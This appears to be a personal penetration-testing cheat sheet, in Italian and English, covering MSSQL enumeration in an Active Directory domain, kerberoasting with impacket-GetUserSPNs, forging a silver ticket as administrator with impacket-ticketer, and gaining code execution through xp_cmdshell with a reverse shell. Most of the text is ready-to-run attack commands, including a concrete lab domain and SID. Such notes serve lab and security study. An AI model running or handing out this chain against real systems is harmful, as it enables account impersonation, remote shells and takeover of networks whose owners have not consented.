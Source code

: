### **ENUM MSSQL**
Vediamo quali server hanno MSSQL attivo
```bash
nmap -p 1433 -sV -sC <RANGE IP>
```
![[Pasted image 20230830110346.png]]
![[Pasted image 20230830110835.png]]
Controlliamo se ci sono utenti con SPN sui server MSSQL trovati
```bash
impacket-GetUserSPNs <DOMAIN MACCHINA>/<USER>:<PASSWD>
```
![[Pasted image 20230830104754.png]]
```bash
IMPACKET-GetUserSPNS -target-domain <DOMAIN> <DOMAIN MACCHINA>/<USER>:<PASSWD>
```
![[Pasted image 20230830110943.png]]
è possibile anche usare crackmapexec per enumerare
```bash
crackmapexec mssql <RANGE IP>
```
![[Pasted image 20230830151845.png]]

### **SILVER TICKET ATTACK**
To perform the silver ticket attack against the SQL service we need three things: 	
1. The NTLM hash of the password of the SqlSvc account. (TGT?)
2. The domain SID. 
```basH
impacket-getPac -targetUser <USER> <DOMAIN>/<USER>:<PASS>
```
3. The SPN that the SqlSvc account is using.
```bash
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -k -dc-ip dc1.scrm.local -no-pass -request
```

Possiamo quindi ora ottenere il silver ticket
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash <sqlsvc NTLM hash> -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local administrator
```
![[Pasted image 20230621120729.png]]
exporta il ticket
```bash
export KRB5CCNAME=/tmp/administrator.ccache
```
se funziona tutto con klist dovresti vedere ciò
![[Pasted image 20230621121052.png]]
connettiti con 
```bash
impacket-mssqlclient -k <macchina>
```
### **RCE**
```bash
enable_xp_cmdshell;
```

```bash
xp_cmdshell <REV SHELL>
```
consiglio la powershell #3 (base64)
